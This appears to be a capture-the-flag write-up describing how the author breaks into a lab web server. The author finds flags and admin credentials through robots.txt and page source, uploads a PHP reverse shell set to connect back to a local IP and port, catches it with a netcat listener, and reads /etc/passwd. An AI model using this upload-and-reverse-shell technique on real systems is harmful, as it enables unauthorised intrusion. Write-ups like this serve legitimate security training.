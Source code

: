 ```
Disallow: /uploads
Disallow: /uploaded_files
Disallow: /flag
```
I immediatly went to /flag and got the first flag: `The 1st flag is : {8734509128730458630012095}`.
Apart from /flag, /admin_area and /uploaded_files were real directories.
I went to /admin_area and found a page which contained the text:
`The admin area not work :)`
I looked at the source for any secrets and found the second flag, as well as login credentials:
```
	username : admin
	password : 3v1l_H@ck3r
	The 2nd flag is : {7412574125871236547895214}
```
I went back to the login page and tried these credentials.
It worked, and it redirected me to a file uploader.
I looked for a reverse php shell on my own machine using: `locate php-reverse-shell.php`.
I copied one of the shells found to my ctf directory, and edited it.
I changed:
```
$ip = '127.0.0.1';
$port = 1234;
```
to:
```
$ip = '192.168.1.5';
$port = 31337;
```
I uploaded the file to the site, and listened for incoming connections using netcat:
```
nc -lp 31337
```
Now that nc was listening i went to /uploaded_files/php-reverse-shell.php and i got a shell.
I first checked to see what user i was:
```
$ whoami
www-data
```
Like i did with the previous ctf, i checked the users and groups that exist on the machine:
```
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
```